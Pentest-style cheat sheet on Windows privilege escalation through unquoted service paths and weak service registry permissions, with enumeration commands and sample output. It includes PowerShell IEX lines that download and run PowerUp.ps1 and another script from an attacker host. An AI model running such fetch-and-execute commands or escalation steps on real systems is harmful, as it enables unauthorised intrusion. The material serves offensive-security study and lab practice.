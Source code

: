 ## Unquoted Service Path

```cmd
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```powershell

# any unquoted services?
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.xxx:8080/PowerUp.ps1'); Invoke-AllChecks

# find folders with write access
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.xxx:8080/ChkUnqPath.ps1'); Test-WriteAccess -FolderPath "C:\path with some\spaces here\"

```


## Weak Registry Permissions

First, check

```powershell
# check registry permissions of a service for HKLM\system\currentcontrolset\services\regsvc

PS C:\Temp> Get-Acl HKLM:\system\currentcontrolset\services\regsvc | Format-List
Get-Acl HKLM:\system\currentcontrolset\services\regsvc | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  : 
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)

# OR same with accesschk.exe

.\accesschk.exe /accepteula -uvwqk HKLM\system\currentcontrolset\services\regsvc

# we see that NT AUTHORITY\INTERACTIVE has full control
# all localy logged in users are part of the INTERACTIVE GROUP
# So changing this registry entry can allow users to perform privileged actions
```

Now, check current reistry values for interesting entries

```powershell
PS C:\Temp> reg query HKLM\system\currentcontrolset\services\regsvc

HKEY_LOCAL_MACHINE\system\currentcontrolset\services\regsvc
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe" #looks interesting
    DisplayName    REG_SZ    Insecure Registry Service
    ObjectName    REG_SZ    LocalSystem

```
